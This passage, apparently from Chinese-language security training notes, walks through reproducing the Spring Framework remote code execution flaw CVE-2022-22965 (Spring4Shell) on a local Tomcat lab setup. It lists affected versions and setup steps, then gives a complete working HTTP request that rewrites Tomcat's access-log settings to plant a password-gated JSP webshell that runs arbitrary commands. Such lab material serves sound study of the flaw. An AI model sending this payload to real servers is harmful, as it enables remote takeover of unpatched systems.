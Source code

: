 ### 2.4 Spring Framework 远程代码执行漏洞（CVE-2022-22965）

#### 漏洞简介

22 年 3 月爆出漏洞，原理可以参考https://paper.seebug.org/1877/。利用SpringMVC参数绑定机制，通过请求传入的参数，控制了Tomcat `AccessLogValve`的属性，让 Tomcat 输出定制的”访问日志“，该“访问日志”实际上为一个 JSP webshell。

#### 漏洞复现

**环境搭建：**(也可以直接使用 vulhub)

> 参考：[GitHub - wshon/spring-framework-rce: CVE-2022-22965](https://github.com/wshon/spring-framework-rce)

本漏洞对各组件版本要求较高，基本要求：

> Spring Framework：5.3.0-5.3.17，5.2.0-5.2.19, 以及其他老版本
>
> tomcat8 <=8.5.77, tomcat9 <=9.0.61
>
> jdk > 8

本次演示环境如下：

![image-20230524111054821](./img/spring/image-20230524111054821.png)

> 代码地址：实验室培训\spring\code\4-CVE-2022-22965（github 直接下载的不太对）

1. mvn package 打 war 包，将 war 包重名为`ROOT.war`(这里是为了和 vulhub 发送的攻击报文一样，才改成了 ROOT。不重命名也可以，只要把下面请求包里的 webapps/ROOT 字段中的 ROOT 修改为 war 包的名字即可)
2. 清空 tomcat 的 webapps 目录，将上面的 war 包放入该目录（tomcat 默认托管这个目录，不想放在这里可以的话，需要去修改配置文件 conf/server.xml）
3. 进入 tomcat 的 bin 目录，用管理员身份执行`catalina.bat run`

**漏洞复现：**发送以下请求以更改 Apache Tomcat 中的日志记录配置并将日志写入 JSP 文件：

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```
